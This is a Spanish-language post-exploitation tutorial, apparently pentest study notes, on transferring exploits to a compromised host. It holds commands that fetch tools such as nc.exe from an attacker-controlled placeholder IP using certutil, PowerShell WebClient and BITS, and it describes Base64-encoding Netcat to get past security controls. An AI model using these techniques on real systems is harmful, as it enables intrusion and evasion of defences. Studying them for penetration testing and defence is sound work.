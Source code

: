 Transfiriendo exploit o archivos al target (Post explotation)
**Transferencias de archivos de Linux**

**Usando Apache**

Copiamos nuestro exploit a /var/www/html en nuestra maquina linux

El siguiente paso es iniciar el servidor web Apache para que podamos descargar el archivo exploit al host comprometido:

>service apache2 start

Ahora podemos acceder al servidor web Apache desde el navegador web (o wget) usando la siguiente URL:

http://[IP Webserver]

Después de servir el último archivo, asegúrese de detener el servidor Apache en el cuadro de ataque con el siguiente comando:

>service apache2 stop

**Usando Python**

Una forma más rápida y segura de servir archivos es con Python SimpleHTTPServer es un módulo de Python que le permite usar un solo comando para crear un servidor web para servir archivos y páginas web.

Para iniciar Python SimpleHTTPServer, ejecute el siguiente comando desde el directorio que contiene los archivos que desea servir :

>python -m SimpleHTTPServer [Optional: port]

En Python 3, el comando tiene el siguiente aspecto:

>python3 -m http.server [Optional: port]

**Transferencias de archivos de Windows**

Las transferencias de archivos en máquinas Windows son un poco más difíciles de lograr desde la línea de comandos, ya que los sistemas Windows no tienen una herramienta nativa como wget.

**CertUtil.exe**

Windows tiene un programa integrado de línea de comandos llamado CertUtil.exe, que se instala como parte de los Servicios de certificados y se puede usar para administrar certificados en Windows.
Certutil también es conocido como un binario Living Off Land (LOL) que es una herramienta de sistema confiable y preinstalada con una funcionalidad inesperada 'extra', como la descarga de archivos. Una característica interesante de certutil es la opción de descargar un certificado remoto desde una URL remota y guardarlo en el sistema de archivos local.

Con el siguiente comando podemos descargar un archivo especificando una URL de descarga y guardarlo en el sistema de archivos local especificando un nombre de archivo como argumento final:

>certutil -urlcache -split -f [URL] [Filename.Extension]

Cargas útiles codificadas en base64
Otra buena característica de CertUtil.exe que puede ayudar a evitar los controles de seguridad es la opción de decodificar archivos codificados en Base64 en el sistema de archivos.

Primero, necesitamos codificar en Base64 el ejecutable de Netcat. El comando para codificar archivos Base64 con CertUtil.exe tiene el siguiente aspecto:
>certutil.exe -encode [inputFileName] [encodedOutputFileName]

El siguiente paso es transferir el archivo de texto al destino y decodificarlo nuevamente en un ejecutable. Podemos hacer esto con los siguientes comandos:
>certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt

Y el siguiente comando decodifica el binario codificado en Base64 en un archivo ejecutable:
>certutil.exe -decode nc.txt nc.exe

**Descargas de PowerShell: System.Net.WebClient**

En un script:

>echo $storageDir = $pwd > httpdownload.ps1
>echo $webclient = New-Object System.Net.WebClient >> httpdownload.ps1
>echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1

Una linea
>System.Net.WebClient.DownloadFile("[Download URL]","[File Name]")

**Descargas de PowerShell: Start-BitsTransfer**
Otra forma de descargar archivos con PowerShell es mediante el Servicio de transferencia inteligente en segundo plano (BITS).

>powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\
